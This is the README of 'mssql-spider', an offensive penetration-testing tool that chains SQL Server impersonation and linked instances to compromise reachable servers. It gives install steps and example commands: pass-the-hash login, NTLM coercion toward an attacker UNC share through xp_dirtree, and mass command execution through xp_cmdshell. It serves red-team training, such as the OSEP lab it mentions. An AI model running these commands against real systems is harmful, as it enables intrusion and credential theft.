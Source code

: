 # mssql-spider

![Screenshot](./assets/demo.png)

An improved [impacket-mssqclient](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) that exploits user impersonation and follows linked instances to discover and compromise as many Microsoft SQL Servers as it can reach.

Big thanks to the developers of fortra/impacket#1397, [SQLRecon](https://github.com/skahwah/SQLRecon) and [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) on which this project is based.

> **Warning:** Although this project was successfully tested in the lab and solves the OSEP Challenge Lab 2 automatically, it is still kinda work in progress.

# Setup

a) With [pipx](https://github.com/pypa/pipx).

~~~ bash
pipx install git+https://github.com/dadevel/mssql-spider.git@main
~~~

b) With [pip](https://github.com/pypa/pip).

~~~ bash
pip install --user git+https://github.com/dadevel/mssql-spider.git@main
~~~

# Usage

Authenticate as local user and enumerate recursively.

~~~ bash
mssql-spider -u jdoe -p passw0rd db01.corp.local
~~~

Authenticate as domain user via *Pass the Hash* and coerce NTLM authentication from all reachable hosts trough `xp_dirtree`.
This does not require privileged access.

~~~ bash
mssql-spider -d corp.local -u jdoe -H :b9f917853e3dbf6e6831ecce60725930 -w --dirtree '\\attacker.corp.local\test' ./mssql-servers.txt
~~~

Execute a command trough `xp_cmdshell` on all hosts where you can obtain sysadmin privileges.

~~~ bash
mssql-spider -k -n -w -x 'whoami /groups' db01.corp.local:50123 db02.corp.com:1433
~~~

Run `mssql-spider --help` for more details.
